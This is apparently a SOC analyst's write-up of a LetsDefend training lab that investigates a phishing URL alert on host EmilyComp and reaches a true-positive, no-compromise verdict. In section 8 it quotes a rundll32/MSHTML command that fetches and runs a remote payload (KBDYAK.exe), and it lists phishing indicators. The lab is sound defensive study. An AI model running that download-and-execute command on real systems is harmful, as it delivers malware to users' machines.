







# SOC141 — Phishing URL Detected

## Phishing URL Investigation | LetsDefend EventID 86

This project documents my investigation of a **High-severity phishing URL alert** involving user `ellie` on endpoint `EmilyComp` (`172.16.17.49`).

The objective was not just to complete the playbook. I wanted to work the alert as an analyst would: validate the indicator, prove whether the user actually reached it, determine whether there was evidence of credential theft or malware execution, scope the activity across the environment, and make a response decision based only on evidence I could support.

**Final verdict:** **True Positive — Phishing URL Accessed**  
**Confirmed compromise:** **No**  
**Credential submission:** **Not confirmed**  
**Malware execution from this event:** **Not confirmed**  
**Observed affected endpoint:** `EmilyComp` / `172.16.17.49`  
**Response:** Host contained as required by the playbook

---

# 1. Start With the Alert



## Alert Summary

| Field | Value |
|---|---|
| Rule | `SOC141 - Phishing URL Detected` |
| Event ID | `86` |
| Severity | **High** |
| Event Time | `2021-03-22T21:23:12+03:00` |
| Alert Type | Proxy |
| Username | `ellie` |
| Source IP | `172.16.17.49` |
| Source Host | `EmilyComp` |
| Destination IP | `91.189.114.8` |
| Destination Host | `mogagrocol.ru` |
| Device Action | **Allowed** |
| User Agent | Chrome on Windows |
| URL | `http://mogagrocol.ru/wp-content/plugins/akismet/fv/index.php?email=ellie@letsdefend.io` |

### Initial analyst question

Two fields immediately mattered:

```text
Phishing URL detected
Device Action = Allowed
```

`Allowed` does not mean the user was compromised. It means the proxy did not block the request, so I needed to answer a more important question:

> **Was this really phishing, and if the connection was allowed, what actually happened after the user reached it?**

---

# 2. Investigation Framework

I used a question-driven workflow rather than jumping between tools:

| Question | Why it matters | Evidence I looked for |
|---|---|---|
| **1. Is the URL/domain actually malicious?** | A detection can be wrong or stale | Threat-intelligence reputation |
| **2. Did the endpoint really access it?** | Detection alone does not prove user interaction | Proxy/firewall telemetry |
| **3. Was the request blocked?** | Blocked vs allowed changes the risk | Device action |
| **4. Was anything submitted?** | Page access is not the same as credential theft | POST requests / follow-on web traffic |
| **5. Did anything execute afterward?** | A phishing page may deliver malware | Endpoint process / command telemetry |
| **6. Can suspicious endpoint activity be tied to this alert in time?** | Old artifacts can create false correlations | Timestamps / terminal history |
| **7. How broad is the activity?** | Other affected hosts change incident severity | IP/domain-wide log searches |
| **8. What response is justified?** | The investigation must lead to action | Evidence + scope + impact |

My working flow became:

```text
Alert
  ↓
Validate URL/domain
  ↓
Confirm host access
  ↓
Check GET/POST and follow-on traffic
  ↓
Review endpoint activity
  ↓
Validate timestamps before correlating artifacts
  ↓
Scope IP + domain across environment
  ↓
Verdict → Containment → Document
```

---

# 3. Is `mogagrocol.ru` Actually Malicious?

## First attempt — internal threat intelligence

I initially checked the domain and destination IP in LetsDefend Threat Intel. The platform returned no useful reputation data.

### Why this mattered

A **no-result** from one threat-intelligence source is not a benign verdict. It only means that source does not currently have useful data.

So instead of closing the indicator as clean, I pivoted to an independent reputation source.

## External validation — VirusTotal



VirusTotal showed **10/90 security vendors** flagging `mogagrocol.ru`, with several explicitly categorising it as **Phishing** or **Malicious**.

### Finding

The external reputation data supported the alert.

> **The destination domain had credible phishing/malicious reputation.**

This still did not prove that Ellie entered credentials or that malware executed. My next step was to prove what the endpoint actually did.

---

# 4. Did `EmilyComp` Actually Access the Phishing Infrastructure?

I pivoted to Log Management and searched the source host/IP against the destination infrastructure.



The search returned two relevant events:

```text
2021-03-23 04:23:16 | Firewall | 172.16.17.49:55662 → 91.189.114.8:80
2021-03-23 04:23:54 | Proxy    | 172.16.17.49:55662 → 91.189.114.8:80
```

The proxy event contained the exact URL:

```text
http://mogagrocol.ru/wp-content/plugins/akismet/fv/index.php?email=ellie@letsdefend.io
```

### Why this is stronger than reputation alone

Threat intelligence told me the domain was suspicious. The proxy/firewall telemetry told me that **the affected internal endpoint actually communicated with it**.

The request was allowed and used HTTP on destination port 80.

### Finding

> **Access to the phishing URL was confirmed from `EmilyComp`.**

---

# 5. Did Ellie Submit Credentials or Trigger a Download?

The available request evidence showed a **GET** request to the phishing URL.

I looked for:

```text
POST requests
additional requests to the destination
a redirect chain
a payload download
follow-on communications
```

I did not find supporting evidence for those actions in the available proxy/firewall telemetry.

The URL itself contains:

```text
?email=ellie@letsdefend.io
```

That does **not** prove Ellie typed her email address into the page. The email value may have been pre-populated in the phishing link before the user clicked it.

### Finding

```text
Phishing page access     = Confirmed
Credential submission    = Not confirmed
POST request             = Not found
Payload download         = Not confirmed
Follow-on web activity   = Not observed
```

This distinction is important: **a true-positive phishing click is not automatically a confirmed account compromise.**

---

# 6. Could the Delivery Vector Be Confirmed From Email?

I checked Email Security for messages associated with `ellie@letsdefend.io` around the incident.

The available email telemetry did not provide a matching message around the March 22/23 alert window that could be tied to `mogagrocol.ru`.

### Finding

> **The phishing delivery vector could not be confirmed from the available email telemetry.**

I therefore did not invent a sender, phishing-email domain, subject, or attachment for the incident.

---

# 7. Endpoint Review — A Suspicious Process Appeared

I reviewed the process list on `EmilyComp` to check whether accessing the phishing page had been followed by suspicious execution.



Most processes were not suspicious by themselves. However, the list included:

```text
KBDYAK.exe
rundll32.exe
```

and the visible `rundll32.exe` command line appeared unusual.

## The tempting conclusion

At first glance, it would be easy to say:

> “The phishing link caused `rundll32.exe` to execute malware.”

That would have been an overclaim.

The process list had **no event time, PID, or parent process**, so I could not yet tie those artifacts to the March phishing alert.

### Next pivot

I checked Terminal History specifically to recover the missing temporal context.

---

# 8. Timestamp Validation Prevented a False Correlation



Terminal History showed the suspicious command:

```text
rundll32.exe javascript:"..\mshtml,RunHTMLApplication";
document.write();GetObject("script:http://ru-uid-507352920.pp.ru/KBDYAK.exe")
```

This is clearly suspicious behavior and demonstrates abuse of `rundll32.exe` / MSHTML-style execution.

However, the timestamp was:

```text
14.02.2021 12:12
```

The SOC141 phishing alert was in late March 2021.

### Analyst correction

The suspicious process activity was **more than a month older** than this alert. Therefore I excluded it from the SOC141 incident unless additional evidence could connect the two.

This was one of the most important lessons in the case:

> **Never correlate artifacts only because they are suspicious and exist on the same host. Validate time, parent/child context, and the surrounding telemetry first.**

Without that timestamp check, I could have incorrectly upgraded a phishing-click investigation into a malware-compromise conclusion.

### Finding

> **No follow-on malware execution was confirmed for this SOC141 event.**

---

# 9. Scope the Phishing Infrastructure

After validating the affected endpoint, I removed the source-host restriction and searched for the phishing IP across the environment. Only the same `EmilyComp` activity was present.

I then searched the domain itself to avoid relying only on a single IP address.



The `mogagrocol.ru` search returned only the previously identified proxy request from `172.16.17.49`.

### Finding

```text
Observed affected host: EmilyComp / 172.16.17.49
Other hosts contacting phishing IP: Not observed
Other hosts contacting phishing domain: Not observed
```

The available telemetry therefore supported **single-host scope**.

Important limitation: this means no other hosts were observed in the available data; it is not proof that activity could not exist outside the retained telemetry.

---

# 10. Final Assessment

## Verdict: True Positive — Phishing URL Accessed

The alert was a **True Positive** because:

```text
✓ The destination domain had phishing/malicious reputation
✓ EmilyComp established a connection to the destination IP
✓ Proxy telemetry recorded the exact phishing URL
✓ The request was Allowed rather than blocked
✓ The affected user/host could be identified
```

But I deliberately stopped short of calling this a confirmed compromise because:

```text
✗ No credential-submission POST was found
✗ No payload download was confirmed
✗ No event-related malware execution was confirmed
✗ No matching phishing email was available to establish delivery
✗ No additional affected hosts were observed
```

### Final classification

> **True Positive — Phishing URL accessed, with no confirmed credential theft or malware execution.**

---

# 11. Containment

The LetsDefend playbook required the endpoint to be contained after confirming access to the phishing URL.



`EmilyComp` (`172.16.17.49`) was placed into containment.

### Why containment was reasonable in this lab

The user reached infrastructure independently identified as phishing, and the request was allowed. Although I did not prove compromise, the playbook treated the endpoint as potentially exposed and required isolation while the incident was closed.

In a production environment, containment would normally be balanced against business impact and the organisation's incident-response policy, but the confirmed access justified escalation and additional user/account checks.

---

# 12. Recommended Response in a Real SOC

For a production investigation, I would:

1. Block the malicious domain and URL at web/DNS security controls.
2. Block or monitor the destination IP where appropriate.
3. Contact the user to determine whether credentials or other information were entered.
4. Reset/revoke credentials and active sessions if credential submission is suspected or confirmed.
5. Review identity logs for abnormal authentication after the phishing access.
6. Hunt for the domain, URL and destination IP across proxy/DNS/EDR telemetry.
7. Continue endpoint review for downloads or execution temporally related to the click.
8. Preserve the case evidence and improve detection/blocking for the observed IOC.

---

# 13. Indicators / Artifacts

| Type | Value | Assessment |
|---|---|---|
| URL | `http://mogagrocol.ru/wp-content/plugins/akismet/fv/index.php?email=ellie@letsdefend.io` | Confirmed phishing URL accessed |
| Domain | `mogagrocol.ru` | Flagged phishing/malicious by multiple vendors |
| Destination IP | `91.189.114.8` | Infrastructure contacted by affected host |
| Internal IP | `172.16.17.49` | Affected endpoint |
| Host | `EmilyComp` | Affected endpoint |
| User | `ellie` | User associated with alert |

The playbook artifacts I added were the **URL** and **destination IP**, because those were the directly confirmed external indicators. I did not add an email sender, email domain, or malware hash because this investigation did not establish those artifacts.

---

# 14. Analyst Note Used for Closure

> SOC141 - Phishing URL Detected was triggered after user Ellie on EmilyComp (172.16.17.49) accessed `http://mogagrocol.ru/wp-content/plugins/akismet/fv/index.php?email=ellie@letsdefend.io`.
>
> The request was allowed and the destination domain `mogagrocol.ru` was independently validated in VirusTotal, where multiple security vendors classified it as phishing/malicious.
>
> Log Management confirmed a firewall connection from 172.16.17.49 to 91.189.114.8:80 followed by a proxy GET request to the phishing URL. No POST request, additional payload download, or follow-on communication to the same domain/IP was identified.
>
> Email Security did not contain a matching phishing email around the alert time, so the delivery vector could not be confirmed. Endpoint review showed older suspicious `rundll32.exe` activity, but the timestamp was from a separate February event and was not attributed to this March phishing incident.
>
> Scope checks found no other internal hosts accessing the phishing IP or domain. Based on available evidence, this is assessed as a True Positive phishing URL access event with no confirmed credential submission or malware execution. EmilyComp was contained as required by the playbook.

---

# 15. What I Learned From This Investigation

The most useful part of this case was not simply identifying a phishing domain. It was learning where **not** to overclaim.

### 1. No threat-intel result does not mean benign

When the first TI source returned no data, I pivoted instead of treating the indicator as clean.

### 2. A GET request proves access, not credential theft

I had evidence that the phishing page was requested, but no POST or other evidence showing credentials were submitted.

### 3. Suspicious endpoint artifacts still need temporal correlation

`rundll32.exe` and `KBDYAK.exe` looked highly relevant until Terminal History showed the suspicious command was from February, not the March phishing incident.

### 4. Scope with both IP and domain

Searching only an IP can miss infrastructure changes. Searching both the destination IP and domain gave stronger scope confidence.

### 5. True Positive does not automatically mean compromised

The detection was real because the user reached phishing infrastructure. The available evidence did not support a stronger claim of credential theft or malware execution.

That distinction is what made the final verdict defensible.

---

# Investigation Outcome

| Item | Result |
|---|---|
| Alert legitimacy | **True Positive** |
| Phishing reputation | **Confirmed / supported** |
| URL accessed | **Yes** |
| Request blocked | **No — Allowed** |
| Credential submission | **Not confirmed** |
| Malware execution from incident | **Not confirmed** |
| Delivery vector | **Not confirmed** |
| Other affected hosts | **Not observed** |
| Host containment | **Completed** |
| Final assessment | **Phishing URL Accessed — No Confirmed Compromise** |